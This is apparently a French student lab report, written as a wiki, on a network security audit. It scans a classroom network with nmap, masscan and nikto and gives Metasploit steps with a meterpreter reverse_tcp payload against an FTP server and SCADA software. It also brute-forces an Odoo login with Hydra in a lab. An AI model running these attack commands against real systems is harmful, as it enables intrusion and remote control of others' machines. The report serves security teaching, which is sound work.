

# audit-securite-wiki 
# Wiki d'Audit de Sécurité

Bienvenue sur le wiki d'audit de sécurité. Ce document présente un guide complet pour effectuer un audit de sécurité d'une infrastructure réseau.

---

## **1. Objectifs de l'Audit**

L’objectif de ce TP n°2 est d’appliquer les notions théoriques et pratiques des séances de CM et de TD. De cette façon, nous allons pouvoir comprendre l’infrastructure du réseau cible en documentant sa topologie. Nous pourrons également identifier les vulnérabilités et les faiblesses à l’aide de divers outils d’analyse tout en élaborant une checklist pour structure un audit de sécurité. Enfin, nous prendrons soin d’exécuter des tets d’intrusion en simulant des attaques réelles et en proposant des recommandations pratiques pour sécuriser le réseau.

L’organisation de ce TP sera ici divisée en 4 parties à savoir :
-	L’Analyse Fonctionnelle Simulée
-	L’utilisation d’Outils d’Analyse
-	La Préparation de l’Audit
-	Les tests d’intrusion

Une conclusion sera ensuite rédigée avec le retour des observations et expériences sur ce TP, en portant attention sur l'important de ces exercices dans le contexte des audits de sécurité.


---

## **2. Analyse Fonctionnelle Simulée**


Ce premier exercice va nous permettre de comprendre la topologie réseau et ses points faibles potentiels. La première étape reste donc d'identifier les différents équipements réseaux de notre topologie comme les PC, les switch, les serveurs webs etc. Pour ce faire voici une maquette draw.io qui récapitule tous ces événements :


   - Eléments relevés :
     - Réseau de la salle : `172.16.110.0/24`.
     - Nombre de PCs : `38`.
     - Nombre de Switchs : `12`.

Les différentes commandes à suivre seront donc effectuées depuis mon ordinateur portable, ce dernier étant directement au réseau de la salle de l'IUT via un cable ethernet. De plus, on aurait également pu essayer de construire et de découvrir la topologie du réseau de facon automatisée avec l'utilisation des 2 commandes Nmap : 

**Ping sweep pour détecter les hôtes actifs :**
   ```bash
   sudo nmap -sn 192.168.1.0/24
   ```

**Détection des services et versions :**
   ```bash
   sudo nmap -sV -A 192.168.1.10
   ```

Pour finir, on peut conclure que la topologie d'un réseau peut fortement influencer la sécurité. En effet, une segmentation réseau bien concue (séparation LAN/DMZ...) limite la propagation des attaques tandis qu'une mauvaise configuration expose des ressources sensibles.

---

## **3. Utilisation d’Outils d’Analyse**

Afin de réaliser cette partie, nous allons nous servir d'outils tels que nmap et masscan depuis une VM Kali Linux dans le but d'analyser les résultats de ces commandes pour identifier les vulnérabilités. Pour masscan, on utilisera cette commande qui permettra de détecter les ports ouverts sur des machines cibles de sorte à déceler les vulnérabilités potentielles à partir du résultat. Ce dernier est concu pour effectuer des scans réseau à une vitesse élevée, en analysant des millions d'adresses IP en un temps réduit. En termes d'avatanges, on peut considérer que masscan est bien plus rapide que nmap pour le balayage des ports sur de grandes plages IP. Cependant il fournit moins de détails et il est souvent utilisé en compléments d'outils. Pour finir sa vitesse de balayage est hautement personnalisable car elle dépend des techniques d'envoi de paquets TCP/UDP en masse, de l'ordre de millions de paquets par seconde maximum.

En ce qui concerne nmap, cet outil permet d'analyser en profondeur les réeaux et systèmes, de détecter des ports ouverts, d'identifier des services actifs, et de déterminer les versions des logiciels ou systèmes d'exploitation. On l'utilisera ici pour compléter l'analyse en profondeur des services exposés. On se servira également de l'outil nikto pour scanner les applications web sur les hôtes détectés.


### **Nmap**

1. **Scan complet des ports depuis une adresse de réseau :**
   ```bash
   sudo nmap -sV -O 172.16.110.0/24 -oN scan_resultats3.txt
   ```

   

La commande effectuée réalise un scan réseau sur le sous-réseau 172.16.110.0/24 pour détecter les ports ouverts, identifier les versions des services associés ainsi qu'analyser le système d'exploitation des hôtes. Cette commande possède également plusieurs arguments qui sont :

* -sV : Active la détection de versions des services sur les ports ouverts. Cela va permettre d'identifier les logiciels et leurs versions qui seront exécutes depuis les hôtes.
* -O : Active la fonctionnalité de détection du systèmes d'exploitations en analysant les caractéristiques des paquets envoyés et répondus par les hôtes.
* -On scan_resultats3.txt : Enregiste les résultats du scan dans un fichier au format txt.

En examinant de plus près le fichier texte [scan_resultats3.txt](scan_resultats3.txt) qui contient les résultats de la commande nmap exécutée, on parvient à distinguer plusieurs hôtes au sein du résau qui sont :

* 172.16.110.10 : On remarque que l'hôte de nom "xivo-UC-rt100.root" est actif au sein du réseau avec une latence de 0,00091s. Les ports ouverts sur ce dernier sont mutiples et on retrouve :
     - Le port 22/tcp qui représente le port rattaché au service OpenSSH version 8.4 utilisé pour les connexions sécurisées a distance. 
     - Le port 25/tcp qui est utilisé pour un service Postfix SMTPD dans l'optique d'envoie de courriels.
     - Le port 80/tcp qui est relié au serveur web Nginx et le port 443/tcp utilisé pour des connexions chiffrés avec SSL/TLS avec le serveur Nginx (son port alternatif est également mentionné, ce dernier etant le 8443/tcp)
     - Le port 5003/tcp rattaché à FileMaker.
     - Le port 5432/tcp qui est lié à la base de donnée PostgreSQL.
     - Le port 9090/tcp qui est un service inconnu et qui pourrait être un panneau d'administration.
     - Le port 9100/tcp qui correspond à un service lié aux imprimantes réseau (JetDirect).

On peut donc en déduire que la machine ciblée fonctionne sous Linux au vu des services installés.

* 172.16.110.53 : On retrouve également une autre machine sous cette commande, qui possède une latence de 0,0013s et qui héberge un service OpenSSH version 9.2 du a l'utilisation du port 22/tcp.

Cela revient donc à conclure que les résultats montrent que le réseau contient plusieurs hôtes éxecutant des services. On remarque également que certains services peuvent avoir des répercussions sur la latence d'un hôte, en particulier si ce dernier en héberge beaucoup. Les services non identifiées peuvent également nécessister des vérifications afin d'évaluer leurs potentiels risque de sécurité.

### **Masscan**

1. **Scan rapide d’un réseau complet :**
   ```bash
   sudo masscan -p22,80,3306,8080,443 172.16.110.0/24 -oL scans_resultats4.txt
   ```

   

La commande précédente utilise masscan afin d'effectuer un outil de scan réseau rapide, pour analyser un sous réseau (172.16.110.0) et détecter les ports ouverts sur des machines cibles. Elle comporte égalemeent certains éléments qui sont :

* -p22,80,3306,8080,443 : Spécifie les ports à scanner, 22 pour SSH, 80 pour HTTPS, 3306 pour Mysql, 8080 pour HTTP alternatif, 443 pour HTTPS.
* -oL scans_resultats4.txt : Spécifie que les résultats du scan seront sauvegardés dans un fichier au format txt.

Le fichier texte [scans_resultats4.txt](scans_resultats4.txt) nous renvoie des informations brutes générées par masscan après un scan des ports spécifiés sur la plage d'adresse 172.16.110.1-254. On remarque que la commande parvient à identifier plusieurs hôtes avec des ports ouverts différents qui sont :
* IP : 172.16.110.10
  - Ports ouverts : 22, 80 et 443 
* IP : 172.16.110.7
  - Ports ouverts : 22, 80 et 443 
* IP : 172.16.110.92
  - Ports ouverts : 80, 3306 et 443 
* IP : 172.16.110.95
  - Ports ouverts : 80, 443 et 3306
* IP : 172.16.110.253
  - Ports ouverts : 22 et 80 
* IP : 172.16.110.97
  - Ports ouverts : 80, 3306 et 443 
* IP : 172.16.110.254
  - Ports ouverts : 22 et 80 
* IP : 172.16.110.63
  - Ports ouverts : 22
* IP : 172.16.110.72
  - Ports ouverts : 22 et 80 
* IP : 172.16.110.111
  - Ports ouverts : 22
* IP : 172.16.110.60
  - Ports ouverts : 22
* IP : 172.16.110.183
  - Ports ouverts : 22 
* IP : 172.16.110.179
  - Ports ouverts : 22 et 80
* IP : 172.16.110.54
  - Ports ouverts : 22
* IP : 172.16.110.53
  - Ports ouverts : 22
* IP : 172.16.110.159
  - Ports ouverts : 22
* IP : 172.16.110.183
  - Ports ouverts : 22
* IP : 172.16.110.86
  - Ports ouverts : 22
* IP : 172.16.110.78
  - Ports ouverts : 22
* IP : 172.16.110.93
  - Ports ouverts : 22
* IP : 172.16.110.80
  - Ports ouverts : 22
* IP : 172.16.110.62
  - Ports ouverts : 22 
* IP : 172.16.110.182
  - Ports ouverts : 22

Enfin, si l'on souhaite faire una analyse des risques par rapport à ces données, on peut tout d'abord dire que le port 22 utilisé pour SSH est présent sur presque toutes les machines. Cela peut indiquer un risque si les mots de passe sont faibles ou que les configurations par défaut sont utilisés. Les ports 80 et 443 nous indiquent également que des services web sont accessibles depuis de nombreuses machines. Il faudra par ailleurs s"assurer que les applications soient protégées contre les attaques connues. Pour finir, le port 3306 indique aussi que la base de données peut être aussi rendue accessible. Il faudra donc prendre en compte ce risque et vérifier que les accès soient bien restreints.

### **Nikto**

1. **Analyse d'une application web :**
   ```bash
   nikto -h http://192.168.1.XX
   ```

   
   
   
Enfin, la dernière commande utilise l'outil Nikto, un outil d'analyse de sécurité pour les serveurs web, sur une machine cible spécifique. Le paramètre -h spécifie l'hôte cible, tandis que "172.16.110.XX" représente l'adresse IP de la machine cible ou le serveur web est analysé. L'utilité de cette commande est donc d'identifier les vulnérabilités sur le serveur web et d'évaluer la conformité et la sécurité des applications hébergées depuis la machine.

En regardant de près les 2 captures, on constate que la première cible 2 adresses, à savoir 172.16.110.179 et 172.16.110.92. L'un possède un serveur Nginx et on y décèle plusieurs vulnérabilités comme le HTPP X-Frame-Options qui n'est pas configuré et le header X-Content-Type-Options qui n'est lui aussi pas défini (qui aurait permis à l'utilisateur de forxer une exécution avec un type MIME incorrect. De plus on remarque aussi qu'un fichier "wp-config.php" à été détecté, qui est susceptible de contenir des identifiants sensibles. La deuxième adresse IP quant à elle héberge un serveur Apache et un serveur OpenSSL. On constate la aussi que les header sont absents et que l'accès à "/robots.txt" révèle 6 entrées exploitables. On note aussi une présence de failles connues comme CVE-2006-3918 qui correspond à uné vulnérabilité XSS. Les méthodes HTTP qui sont renseignés peuvent aussi rendre le serveur vunérable aux attaques Cross-Site Tracing.
Pour plus de résultats, le deuxième screen affiché cible lui aussi 2 adresses, qui sont 172.16.110.95 et 172.16.110.78. La première présente des similitudes avec des vulnariblités quasi identiques aux l'adresse hébergant le serveur Apache et OpenSSL. La seconde adresse elle héberge un serveur Caddy (serveur web), qui présente aussi des vulnérabilités avec l'absence des headers HTTP.

---

## **4.Préparation à l’Audit**

### Scénario fictif : Audit de sécurité d’une entreprise
L'entreprise TechSoft Ltd., spécialisée dans le développement d'applications web, dispose de quatre serveurs accessibles depuis Internet. Cet audit vise à évaluer leur niveau de protection contre les cyberattaques. Les outils utilisés incluent **Nmap**, **Masscan** et **Nikto**. Ces derniers étant respectivement utilisés pour le scan de ports et services, l'analyse rapide des ports ouverts et la détection des vulnérabilités sur les serveurs web.

### - Liste de Vérification pour l’Audit de Sécurité

### 1. Analyse de Surface d’Attaque
  - Identifier les ports ouverts (Nmap, Masscan).
  - Vérifier les services actifs et leurs versions (Apache, MySQL, etc.).
  - Évaluer si les ports inutilisés peuvent être fermés.
  - Vérifier si les règles de filtrage permettent uniquement le trafic nécessaire.

### 2. Sécurité des Services Web
- Vérification des vulnérabilités avec Nikto :
  - Absence des headers HTTP critiques (X-Frame-Options, X-Content-Type-Options, Strict-Transport-Security).
  - Présence de fichiers sensibles (/wp-config.php, /backup/).
  - Vérification des chemins dans /robots.txt.
- Validation des certificats SSL :
  - Vérifier l’expiration et la force des certificats TLS.

### 3. Gestion des Mises à Jour
  - Identifier les versions obsolètes (Apache, OpenSSL, PHP, etc.).
  - Vérifier les vulnérabilités connues (CVE-2006-3918 détectée sur Apache).

### 4. Politique de Mots de Passe
- Sécurité des mots de passe :
  - Vérifier les exigences en matière de mots de passe (longueur, complexité).
  - Confirmer l’absence de mots de passe par défaut.

### 5. Sécurité Réseau
  - Vérifier si les serveurs critiques sont isolés des autres services.
  - Confirmer l’utilisation d’une DMZ pour les services publics.
  - Désactiver les méthodes dangereuses (TRACE, PUT).

### 6. Surveillance et Journalisation
  - Vérifier si les journaux système et applicatifs sont activés.
  - S’assurer que les logs sont protégés contre les modifications non autorisées.

---

Pour conclure, on peut lister les éléments essentiels à inclure dans une liste de vérification comme :
- La surface d'attaque (ports, services).
- La sécurité des applications (versions, vulnérabilités).
- La configuration réseau (pare-feu, segmentation).
- La gestion des accès et des mots de passe.
- Les mises à jour et correctifs de sécurité.
- La surveillance et la réponse aux incidents.

De cette facon, la liste de vérification pourra guider l'audit de sécurité notamment via la priorisation des actions pour identifier les vulnérabilités critiques à corriger en premier, la structure et cohérence du guide ainsi que la documentation.

---

## **5. Tests d’Intrusion et d’Attaques**

Le principe de cet partie répose sur l'utilisation de l'outil Metasploit pour simuler des attaques contrôlées en réalisant des tests d'intrusion pour exploiter des vulnérabilités. Pour ce faire nous allons donc utiliser les commandes suivantes :

   
   

La première image renvoie vers l'interface d'accueil de Metasploit Frameworkc, la commande "msfconsole" est donc l'interface principale en CLI de Metasploit et elle permet aux utilisateurs de rechercher des exploits, payloads, modules, de configurer des paramètres pour des exploits et de lancer des attaquess sur des cibles particulières. En ce qui concerne les informations importantes que la commande retourne on constate qu'elle propose 2466 exploits, 1273 auxiliaires, 393 modules post-exploitation, 1475 payloads, 49 encoders, 13 NOPs, et 9 modules d'évasion pour tester, exploiter et contourner des vulnérabilités et systèmes de sécurité.

La deuxième image exécute Metasploit en mode silencieux (paramètre "-q") pour rechercher des exploits et sauvegarder les résultats dans un fichier texte (ici metasploit.txt) avec une redirection du chemin de la sortie. En examinant le fichier généré [metasploit.txt](metasploit.txt), voici un exemple de l'analyse des exploits pertinents :

- Exploit "exploit/linux/local/cve_2021_3493_overlayfs" : Cet exploit divulgué le 12/04/2021 permet une élévation des privilèges sur les systèmes Ubuntu étant affectés par une vulnérabilité dans OverlayFS. Cet exploit pourrait utilisé pour obtenir des privilèges administrateur.
- Exploit "exploit/windows/ftp/3cdaemon_ftp_user" : Cet exploit divulgué le 04/01/2005 cible une vulnérabilité de dépassement de tampon dans le serveur FTP 3CDaemon. Si la faille se retrouve exploitée, elle pourrait être utilisée pour exécuter du code arbitraire.
- Exploit "exploit/windows/scada/igss9_misc" : Cet exploit divulgué le 24/03/2011 exploite des vulnarabilités dans IGSS 9, qui pourrait être utilisée pour cibler des environnements SCADA de sorte à obtenir un accès non autorisé/

Pour la partie pratique concernant ces exploits, voici une brève explication des commandes à renseigner pour les exploiter :

- Exploit 1 : exploit/linux/local/cve_2021_3493_overlayfs
  - msfconsole
  - use exploit/linux/local/cve_2021_3493_overlayfs
  - set SESSION [ID de la session active]
  - run 
- Exploit 2 : exploit/windows/ftp/3cdaemon_ftp_user
  - msfconsole
  - use exploit/windows/ftp/3cdaemon_ftp_user
  - set RHOST [IP de la cible]
  - set RPORT [Port FTP de la cible]
  - set PAYLOAD windows/meterpreter/reverse_tcp
  - set LHOST [IP de l'attaquant]
  - set LPORT [Port d'écoute de l'attaquant]
  - exploit
- Exploit 3 : exploit/windows/scada/igss9_misc
  - msfconsole
  - use exploit/windows/scada/igss9_misc
  - set RHOST [IP de la cible]
  - set RPORT [Port utilisé par IGSS]
  - set PAYLOAD windows/meterpreter/reverse_tcp
  - set LHOST [IP de l'attaquant]
  - set LPORT [Port d'écoute de l'attaquant]
  - exploit

Pour finir, si l'on souhaite fixer des contre-mesures pour chaque exploit mentionné, on pourrait par exemple effectuer une mise à jour du noyau linux pour combler la faille, resteindre les privilèges pour les utilisateurs et surveiller les logs pour monitorer les événements inhabituels. Concernant le deuxième exploit, il serait plus viable de remplacer le logiciel concerné en abandonnant 3Cdaemon pour un autre serveur FTP plus sécurisé notamment en utilisant des connexions sécurisées via le protocole SFTP et en limitant aussi les ports et accès via des ACL ou un pare feu. Enfin, la troisième exploit serait résolu en semgentant le réseau pour isoler les systèmes SCADA dans un réseau sécurisé, de renforncer la surveillance en mettant en place des solutions de détection des intrusions et en limitant l'exposition à l'interface SCADA. 

Toutes ces manoeuvres montrent bien que les tests d'intrusion ont leur importance surtout dans l'analyse fonctionelle. Ils permettent notamment d'identifier les failles avec des vulnérabilités réelles dans le système, une validation des mesures de sécurité avec des mécanismes de protection et une amélioration de la résilience en testant la capacité du système à résister à des attaques.

---

## **6. Simulation d’Audits et d’Attaques**

### 	Gestion des utilisateurs (Eliès Boughanmi)

#### A. Préparation de l’Environnement – Installation d’Odoo sur Debian

Dans cette partie, nous allons installer l'application odoo depuis une machine virtuelle dans le but d'auditer 1 module, en l'occurence ici la gestion des utilisateurs. Il s'agira ici de proposer des recommandations basées sur l'analyse fonctionnelle, en utilisant 2 VM, avec Odoo installé sur la vm debian et une vm kali linux utilisée pour auditer les vulnérabilités, simuler des attaques et éditer directement les fichiers du module.

Chacune des VM possèdera 2 cartes réseau à savoir

* Une en NAT pour l'accès à Internet
* Une en réseau privé hôte pour la communication entre VM soit
  * 192.168.56.10 pour la VM debian
  * 192.168.56.20 pour la VM kali linux

La première étape consiste donc à installer l'application Odoo sur la machine debian pour qu'il soit prêt à etre audité. Il convient d'installer les paquets nécessaires au bon fonctionnement d'odoo, en particulier les paquets python3 et python3-pip qui sont indispensables. Il faudra aussi installer postgreSQL, qui fait office de base de données d'odoo pour stocker tout type de données. Une fois installé, il ne restera plus qu'a démarrer les services en s'assurant qu'ils sont bien en cours d'exécution avec les commandes "sudo systemctl start/status odoo/postgresql". 

On pourra par la suite créer un utilisateur postgresql pour odoo, notamment avec la commande : 
 * sudo -u postgres createuser -s odoo

De cette manière, un utilisateur au nom d'odoo sera crée avec les privièges superuser ce qui permettra à odoo de gérer pleinement ses bases de données. Il faudra ensuite lui ajouter un mot de passe par le biai des commandes suivantes :
 * sudo -u postgres psql
 * ALTER USER odoo WITH PASSWORD 'odoo_password';
 * \q

On modifira dans un second temps les paramètres contenus dans le fichier de configuration d'Odoo, qui sont situés dans le chemin "/etc/odoo/odoo.conf" :

   

En résumé, le fichier possède les paramètres essentiels pour la connexion à la base de données comme db_host qui indique l'adresser du serveur ou est hébergée la base de données postgresql, db_user pour le nom d'utilisateur utilisé pour accéder à la base de donnée, db_password pour le mot de passe associé à l'utilisateur et http_port qui détermine le port d'accès à l'interface web d'odoo. Pour finir il ne restera plus qu'à accéder à l'interface web d'odoo depuis un navigateur en entrant l'url "http://192.168.56.10:8069" comme ceci :

    

#### B. Édition du Module de Gestion des Utilisateurs dans Odoo

Pour poursuivre, cette deuxième partie va permettre de modifier le module de gestion des utilisateurs pour renforcer la sécurité, en appliquant principalement des règles plus strictes sur les mots de passe et en restreignant les droits d'accès aux utilisateurs.

En ce qui concerne la localisation du module de gestion des utilisateurs, on le situe dans le répertoire "/usr/lib/python3/dist-packages/odoo/addons/base/" car c'est l'endroit ou Odoo installe ses modules principaux. Le principal fichier qui contient la logique principale pour la création et la gestion de comptes utilisateurs est "models/res_users.py". Le but ici sera donc d'imposer une longueur minimale et des critères plus pertinents pour les mots de passe des utilisateurs. Une vérification sera par ailleurs ajoutée lors du processus de création d'un nouvel utilisateur.

Pour parvenir à ces objectifs, il faut commencer par éditer le fichier python des utilisateurs nommé "res_users.py" qui gère la logique métier des utilisateurs, en le modifiant on sera capable d'imposer des contraintes sur les mots de passe pour renforcer la sécurité comme ici :

   

En très bref, la ligne "_inherit = 'res.users'" permet de modifier le modèle res.users existant sans pour autant le remplacer, @api.model permet quant'a lui d'indiquer que cette méthodé s'applique lors de la création d'un nouvel utilisateur. Par la suite, "raise exceptions.ValidationError" est utilisé pour lever une erreur si le mot de passe ne respecte pas les critères définis. L'utilisateur devra alors renseigner un nouveau mot de passe qui comporte au minimum 10 caractères, un chiffre, une majuscule et un caractère spécial. 

Ensuite, il sera nécessaire de modifier le fichier des groupes nommé "res_groups.xml", ce dernier permettant de créer des groupes d'utilisateurs avec des permissions restreintes pour limiter les accès non autorisés aux fonctions critiques. C'est d'ailleurs ce que l'on va essayer de faire en implémentant le code suivant :

   

De cette manière, on pourra alors après coup entamer la modification du fichier "ir.model.access.csv" afin de resteindre les capacité de lecture, d'écriture et de suppression des utilisateurs non admin pour certaines fonctionnalités. L'ajout des règles de restriction d'accès sera fera comme le montre l'image ci-dessous :

   

Cette règle permettra entre autres d'avoir un identifiant unique pour règle, via le paramètre "access_res_users_limited", elle aura bien entendu un modèle affecté avec "model_res_users" et enfin le paramètre "base.group_ser" qui lui de filtrer les groupes d'utilisateurs standars. Pour finir, les permissions que donne cette règle autorisera la lecture et l'écriture de manière libre et autorisée, cependant aucune création et suppression ne sera tolerée.

La dernière étape est donc de rédémarrer odoo, pour être certains que les modifications prennent effet. 

#### C. Audit d’Odoo Depuis Kali Linux

Cette troisième partie portera sur la simulation des attaques et sur l'identification des vulnérabilités potentielles d'Odoo installée sur la vm debian en se servant d'outils de test d'intrusion comme Nmap, Nikto et Hydra. L'objectif est donc d'évaluer la sécurité du module de gestion pour vérifier si les modifications sont efficaces.

En premier lieu, le lancement du scan nmap va être réalisé pour identifier les services ouverts sur une machine cible. Les paramètres "-sV" et "-p" permettent respectivement d'éffectuer une détection de version des services en cours d'éxecution et du scan de l'ensemble des ports. Il ne restera en suite plus qu'a pointer l'adresse IP de la vm debian sur laquelle odoo est installé.

   

En l'occurence, la commande va ici scanner tous les ports ouverts sur l'adresse IP de la vm linux. Cette dernière va d'ailleurs détecter 2 ports ouverts à savoir :
 * 5432/tcp : Port utilisé par PostgreSQL (versions détectées : 15.5 - 15.6)
 * 8069/tcp : Port associé au serveur Werkzeug (version 2.2.2, Python 3.11.2)

Ici, le framework Werkzeug est utilisé par Odoo afin de traiter les requêtes HTTP en mode natif. C'est donc pour cette raison que nmap affiche ce framework comme service HTTP, meme si c'est Odoo qui l'utilise en l'arrière plan.

Au sujet de la dexuième commande, on va utiliser le script vulscan de nmap pour analyser les vulnérabilités associées au service fonctionnant sur le port 8069 :

   

On constate donc que le port est signalé comme "unknown", ce qui signifie qu'il n'est pas reconnu. Cela peut indiquer une configuration du serveur standard ou un manque d'informations dans la base de données de vulnérabilités.

A l'égard de la troisième commande, on se servira de la commande nikto qui effectuera un scan complet des vulnérabilités Web. Cet outil open-source est notamment concu pour scanner des sitew web à la recherche de vulnérabilités connues. L'option -h permet ici de spéficier la cible avec l'IP de la vm debian et le port 8089 pour Odoo :

   

On peut observer que plusieurs problèmes de configuration sont détectés à savoir :
 * L'en-tête HTTP X-Frame-Options est absent
 * L'en-tête HTTP X-Content-Type-Options est absent, ce qui pourrait permettre des attaques basées sur le type MIME

Enfin, la dernière commande utilise hydra afin de réaliser une attaque par brute force sur la page de connexion de l'application web, en essayant plusieurs mots de passe à partir du fichier passwords.txt comme ceci :

   

La commande parcours donc l'ensemble des mots de passe à l'intérieur du fichier texte et retourne le mot de passe correct "odoo_password" qui est trouvé pour le compte odoo. Hydra nous montre aussi que l'attaque a réussi, avec des informations de connexion valides.

#### D. Recommandations de Sécurité pour Odoo

En conclusion, cette dernière partie intervient après avoir réalisé des tests d'intrusion (bruteforce, scan de vulnérabilités web et scan réseau). Elle va permettre d'émettre des recommendations visant à renforcer la sécurité d’Odoo en appliquant des contre-mesures adaptées aux vulnérabilités détectées.

Pour faire simple, voici une liste des ontre-mesures qu'on pourra prendre à savoir :
 * Anti-bruteforce : Verrouille l’utilisateur après 3 tentatives
 * Restriction d’IP : Seules certaines IP peuvent accéder à /admin et /database/manager
 * Sécurité des Cookies : Activation des attributs HttpOnly et Secure
 * 2FA : Authentification forte pour les administrateurs

---

## **7. Conclusion**

En conclusion, on peut noter que ce TP à permis de mettre en évidence l'importance et de comprendre les vulnérabilittés 
d'un système en utilisant des outils dans le but de réaliser des tests d'intrusion et l'exploration des exploits pour mettre à l'épreuve la sécurité des systèmes. La mise en place de tests ont donc permis d'identifier des failles spécifiques mais aussi de simuler des scénarios d'attaque réalistes ce qui offre une meilleur perspective sur les risques auxquels une entreprise peut faire face.

Réaliser ces exercices sont donc essentiels dans le cadre des audits de sécurité, car ils permettent de renforcer la posture de sécurité, de prioriser les actions conttre les vunérabilités et de sensibiliser les équipes techniques et non techniques sur les bonnes pratiques. 

---

